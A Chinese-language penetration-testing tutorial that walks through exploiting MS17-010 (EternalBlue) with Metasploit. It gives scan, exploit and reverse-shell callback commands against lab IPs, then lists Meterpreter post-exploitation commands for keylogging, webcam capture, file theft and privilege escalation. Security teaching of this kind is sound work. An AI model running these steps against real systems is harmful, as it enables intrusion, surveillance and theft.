# 网络安全系统教程：P24：MSF攻击流程详解 🛡️



在本节课中，我们将学习Metasploit Framework（MSF）的核心攻击流程。我们将以经典的MS17-010（永恒之蓝）漏洞为例，完整演示从漏洞探测到获取Meterpreter会话，再到后渗透操作的全过程。通过本课，你将掌握MSF的基本使用方法和攻击逻辑。

## 攻击目标与核心概念



MSF攻击的最终目的是获取**Meterpreter**会话。无论使用MSF对目标进行何种渗透，最终目标都是拿到Meterpreter以进行后续的渗透操作。





Meterpreter是一个高级的、可动态扩展的Payload，它运行在内存中，并通过加密通信与攻击者交互，提供了强大的后渗透功能。

## 攻击流程详解：以MS17-010为例

上一节我们明确了攻击目标，本节中我们来看看如何利用MS17-010漏洞达成这一目标。这是一个非常经典且完整的例子，涵盖了MSF攻击的主要步骤。

### 第一步：启动MSF并搜索模块

首先，我们需要进入MSF控制台。

```bash
msfconsole
```



进入后，我们可以搜索与MS17-010相关的模块。

```bash
search ms17-010
```

执行搜索后，通常会看到两类模块：辅助模块（Auxiliary）和攻击模块（Exploit）。辅助模块用于探测目标是否存在该漏洞，攻击模块则用于实际利用漏洞。

### 第二步：使用辅助模块进行漏洞扫描

在确认攻击模块前，我们需要先探测目标是否存在MS17-010漏洞。以下是探测步骤：

1.  **使用辅助扫描模块**：
    ```bash
    use auxiliary/scanner/smb/smb_ms17_010
    ```

2.  **查看并配置模块选项**：
    ```bash
    show options
    ```
    关键选项是`RHOSTS`，即目标主机的IP地址。端口`RPORT`通常默认为445（SMB服务端口）。

3.  **设置目标地址并执行扫描**：
    ```bash
    set RHOSTS 192.168.1.131
    run
    ```
    如果目标存在漏洞，扫描结果会提示“主机似乎存在MS17-010漏洞”。



**扩展扫描**：除了扫描单个IP，也可以扫描整个网段。
```bash
set RHOSTS 192.168.24.0/24
set THREADS 20
run
```
设置`THREADS`（线程数）可以加快扫描速度，但设置过高可能导致误报。



### 第三步：利用攻击模块获取会话


确认目标存在漏洞后，即可使用攻击模块进行利用。



1.  **选择攻击模块**：
    ```bash
    use exploit/windows/smb/ms17_010_eternalblue
    ```

2.  **配置攻击模块**：
    ```bash
    show options
    ```
    需要配置两个主要部分：
    *   **模块选项 (Module options)**：主要是`RHOSTS`，即目标地址。
    *   **Payload选项 (Payload options)**：这是攻击成功后，我们希望目标机器执行的代码。通常使用反向TCP连接Payload。
        *   `LHOST`：设置攻击者（本机）的IP地址。
        *   `LPORT`：设置攻击者监听的端口（如4444）。

3.  **设置参数并执行攻击**：
    ```bash
    set RHOSTS 192.168.1.131
    set LHOST 192.168.1.128 # 假设这是攻击机IP
    set LPORT 4444
    exploit
    ```
    如果攻击成功，MSF会建立与目标机的Meterpreter会话，命令行提示符会变为 `meterpreter >`。



### 第四步：Meterpreter后渗透操作

成功获取Meterpreter会话后，就进入了后渗透阶段。Meterpreter提供了极其丰富的功能。

以下是Meterpreter的主要命令类别，可以通过 `?` 或 `help` 命令查看详情：



*   **核心指令 (Core Commands)**：如 `background`（将当前会话置于后台）、`sessions`（查看所有会话）。
*   **文件系统命令 (File system Commands)**：操作靶机文件，如 `cd`, `ls`, `download`, `upload`, `edit`。
*   **网络命令 (Networking Commands)**：管理网络，如 `ipconfig`, `portfwd`（端口转发），`route`（查看/添加路由）。
*   **系统命令 (System Commands)**：操作系统，如 `ps`（查看进程）、`kill`（结束进程）、`getpid`、`shutdown`、`reboot`。
*   **用户接口命令 (User interface Commands)**：控制用户界面，如 `screenshot`（截图）、`keyscan_start`（开始键盘记录）。
*   **Webcam命令 (Webcam Commands)**：控制摄像头，如 `webcam_snap`（拍照）、`webcam_stream`（开启视频流）。



**常用操作示例**：
*   执行系统命令：`shell` （进入目标机的cmd shell，输入 `exit` 返回meterpreter）。
*   查看当前权限：`getuid`。
*   尝试提权：`getsystem`。
*   将会话置于后台：`background`。
*   重新连接后台会话：`sessions -i [会话ID]`。

### 会话管理技巧





有时获取的初始会话可能不是Meterpreter。可以将其升级为Meterpreter：

1.  将当前会话置于后台：`background`。
2.  查看所有会话：`sessions`。
3.  升级指定会话：`sessions -u [会话ID]`。

## MSF常用命令总结

在本节中，我们穿插使用了许多MSF命令，以下是核心命令回顾：

*   `search [关键词]`：搜索模块。
*   `use [模块路径]`：使用某个模块。
*   `show options`：显示当前模块的配置选项。
*   `set [选项名] [值]`：设置选项值。
*   `run` 或 `exploit`：执行模块（辅助模块用run，攻击模块用exploit）。
*   `show exploits/auxiliary/payloads`：查看所有攻击/辅助/Payload模块。
*   `info [模块名]`：显示某个模块的详细信息。
*   `back`：从当前模块上下文退出。

## 现实意义与注意事项



MS17-010是一个历史悠久的漏洞，在公网或云服务器上已基本绝迹，因为云服务商有完善的自动防御。然而，它在内网环境中，尤其是一些老旧、未及时更新的企业办公电脑或服务器上，仍然可能存在。这提醒我们，内网安全同样不可忽视。



## 课程总结

本节课中，我们一起学习了MSF完整的攻击流程：
1.  **探测**：使用辅助模块扫描目标，确认漏洞存在。
2.  **攻击**：配置并利用攻击模块，获取初始访问权限（通常是Meterpreter会话）。
3.  **后渗透**：利用Meterpreter的强大功能进行信息收集、权限维持、横向移动等操作。
4.  **管理**：掌握会话的前后台切换与管理。



通过以MS17-010为例的实践，你不仅学会了一个具体漏洞的利用方法，更重要的是理解了渗透测试中“探测-利用-控制”的基本框架。请务必在授权的合法环境中进行练习，巩固这些知识。